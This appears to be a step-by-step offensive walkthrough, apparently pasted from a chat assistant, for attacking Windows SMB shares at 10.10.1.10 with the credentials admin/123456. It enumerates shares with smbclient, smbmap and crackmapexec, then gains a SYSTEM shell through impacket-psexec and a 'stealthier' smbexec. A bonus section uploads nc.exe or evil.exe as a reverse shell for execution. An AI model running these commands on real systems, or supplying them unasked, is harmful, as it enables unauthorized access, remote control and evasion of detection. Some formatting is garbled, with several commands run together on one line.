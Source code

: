 ### 🔹 Step 1: List Available Shares

bash

CopiarEditar

`smbclient -L \\\\10.10.1.10 -U admin%123456`

> Look for shares like:
> 
> - `C$` (admin)
>     
> - `Users`
>     
> - `Shared`
>     
> - `IPC$` (not useful)
>     
> - Anything custom
>     

---

### 🔹 Step 2: Connect to a Share

Once you find a share:

bash

CopiarEditar

`smbclient \\\\10.10.1.10\\SHARENAME -U admin%123456`

You’ll get a prompt like `smb: \>`.

### 🔸 Useful Commands in smbclient:

bash

CopiarEditar

`ls               # list files cd foldername    # change directory get file.txt     # download file put shell.exe    # upload a file`

---

### 🔹 Step 3: Recursively Enumerate with smbmap

bash

CopiarEditar

`smbmap -H 10.10.1.10 -u admin -p 123456`

This gives a full tree view of file permissions and accessible directories.

---

### 🔹 Step 4: Use crackmapexec to Check Privileges

bash

CopiarEditar

`crackmapexec smb 10.10.1.10 -u admin -p 123456`

Look for:

nginx

CopiarEditar

`SMB         10.10.1.10      445    DESKTOP-X    [+] admin:123456 (Pwn3d!)`

If you see `(Pwn3d!)` — you likely have full admin access.

---

## 🧨 Bonus: Upload and Execute Reverse Shell

If you can **write to a share** and have **command execution access** (e.g., via scheduled task, service abuse, or RPC), upload a reverse shell (e.g., `nc.exe`, `evil.exe`), and:

1. Upload shell:
    

bash

CopiarEditar

`smbclient \\\\10.10.1.10\\SHARENAME -U admin%123456 put nc.exe`

2. Trigger execution (via RCE method — needs context).
    

---

## 🚀 Next Steps (If Admin on SMB)

If CrackMapExec says `Pwn3d!`, try:

### 🛠️ `impacket-psexec`:

bash

CopiarEditar

`impacket-psexec admin:123456@10.10.1.10`

> Gives direct SYSTEM shell over SMB.

Or:

### ⚙️ `impacket-smbexec` (slightly stealthier):

bash

CopiarEditar

`impacket-smbexec admin:123456@10.10.1.10`